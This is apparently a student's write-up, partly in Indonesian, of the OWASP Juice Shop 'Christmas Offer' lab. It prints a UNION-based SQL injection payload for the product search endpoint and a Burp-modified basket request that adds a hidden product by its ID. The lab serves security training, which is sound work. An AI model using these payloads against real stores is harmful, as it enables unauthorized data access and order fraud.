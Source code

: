 # Injection - Soal 4 (Christmas Offer)


---

## 21 Link Resource
- [OWASP Juice Shop](https://owasp-juice.shop)  
- [SQL Injection UNION attacks - PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks)  
- [SQLite Schema documentation](https://www.sqlite.org/schematab.html)

## 1. Jawaban

### Step 1: Identifying the Injection Point
- Eksplorasi pada fitur **Product Search**.  
- Endpoint yang diuji:  

```
http://127.0.0.1:3000/rest/products/search?q=payload
```

- Parameter `q` terdeteksi sebagai titik **SQL Injection**.  

![Step 1](step%201.png)

---

### Step 2: Crafting the SQL Injection Query
- Payload yang digunakan:  

```sql
test')) UNION SELECT * FROM PRODUCTS WHERE deletedAt IS NOT NULL--
```

- Hipotesis: produk tersembunyi (*Christmas Offer*) ditandai dengan kolom `deletedAt` yang **tidak null**.  
- Query berhasil menampilkan produk yang tidak muncul di listing normal.  

![Step 2](step%202.png)

---

### Step 3: Retrieving the Product ID
- Dari hasil SQL Injection, ditemukan detail produk tersembunyi.  
- **Product ID dari Christmas Offer adalah 10**.  

![Step 3](step3.png)

---

### Step 4: Adding the Product to the Cart
- Tambahkan produk biasa ke keranjang.  
- Tangkap request dengan Burp Suite.  
- Contoh request normal:  

```http
POST /api/BasketItems/
{
  "ProductId": 1,
  "BasketId": 1,
  "quantity": 1
}
```

- Ubah `ProductId` menjadi **10** untuk menambahkan *Christmas Offer*:  

```http
POST /api/BasketItems/
{
  "ProductId": 10,
  "BasketId": 1,
  "quantity": 1
}
```

- Setelah request dikirim, *Christmas Offer* berhasil masuk ke keranjang. ✅  



---

